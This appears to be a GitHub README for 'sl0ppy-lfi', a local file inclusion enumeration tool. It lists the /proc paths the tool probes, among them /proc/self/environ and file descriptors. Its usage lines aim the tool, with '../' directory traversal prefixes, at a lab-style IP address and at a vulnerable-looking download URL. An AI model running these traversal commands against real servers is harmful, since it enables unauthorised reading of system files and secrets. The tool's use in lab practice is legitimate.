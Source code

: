 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* /proc/loginuid
* /proc/maps
* /proc/patch-state
* /proc/numa_maps
* /proc/stack
* /proc/personality
* /proc/pagemap
* /proc/cgroup
* /proc/sched
* /proc/mounts
* /proc/status
* /proc/environ
* /proc/shedstat
* /proc/meminfo
* /proc/self/
* /proc/self/stat
* /proc/self/environ
* /proc/self/maps/
* /proc/self/fd/
* and more
# Usage 

# Enum all
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=` 
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../` 

# enum specific stuff like only libc
* `./sl0ppy-lfi http://10.10.11.154/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"` 


# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
